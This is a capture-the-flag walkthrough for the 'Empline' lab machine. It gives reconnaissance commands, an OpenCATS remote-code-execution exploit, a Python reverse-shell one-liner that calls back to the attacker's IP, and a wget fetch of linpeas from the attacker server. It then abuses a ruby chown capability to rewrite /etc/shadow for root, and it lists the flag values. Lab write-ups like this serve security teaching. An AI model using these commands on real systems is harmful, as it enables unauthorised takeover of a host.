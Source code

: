 # Empline - Medium

```shell
sudo vim /etc/hosts
#map ip to empline.thm

nmap -T4 -p- -A -Pn -v empline.thm

gobuster dir -u http://empline.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

sudo vim /etc/hosts
#add job.empline.thm

searchsploit opencats

#get exploit
./opencats-rce.sh http://job.empline.thm/

#we get root shell

id
#www-data

#setup a listener
nc -nvlp 4444

#python reverse-shell one-liner
export RHOST="10.10.11.170";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

#we get reverse-shell
cd /tmp

python3 -c 'import pty;pty.spawn("/bin/bash")'

#get linpeas.sh from attacker server
wget http://10.10.11.170:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#ruby has chown capability set

which ruby

cat /etc/passwd
#www-data uid is 33

#exploit ruby chown
#change ownership of /etc/shadow to www-data
/usr/local/bin/ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/etc/shadow")'

ls -la /etc/shadow

cat /etc/shadow
#we have read-write privilege now

#in attacker machine
#generate hash for 'newpassword'
mkpasswd -m sha-512 newpassword

#copy hash
vim /etc/shadow
#replace root hash with new hash

su root
#we can use 'newpassword'

#root shell
cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29
  * 3306 - mysql - MySQL 5.5.5-10.1.48-MariaDB

* We can start off by enumerating the webpage on port 80.

* Now, the page contains multiple sections, and one of the sections 'Employment' leads to the subdomain <job.empline.thm>

* So, we can add this subdomain to our /etc/hosts file.

* Now, this subdomain leads to a login page for ```opencats```; this is version 0.9.4

* We can check for directories using ```gobuster``` here as well.

* Now, this version of ```opencats``` has a RCE exploit available.

* When we run the script, we get a reverse shell as 'www-data'.

* We cannot change directories in this shell, so we can setup a listener, and use another Python reverse-shell one-liner to migrate.

* Now, we can use ```linpeas.sh``` for basic enumeration.

* ```linpeas``` shows that there are capabilities setup for ```ruby``` which can be exploited:

```/usr/local/bin/ruby = cap_chown+ep```

* Now, Googling for this shows that we can change ownership of files by exploiting this capability.

* We can change ownership of the ```/etc/shadow``` file, and modify the root user's password with our newly-generated root password.

* Then, we can switch to the new user and read both flags.

* Alternatively, we can exploit 'chown' capability to read and write to ```/etc/passwd```, and add a new root user.

```markdown
1. User.txt - 91cb89c70aa2e5ce0e0116dab099078e

2. Root.txt - 74fea7cd0556e9c6f22e6f54bc68f5d5
```
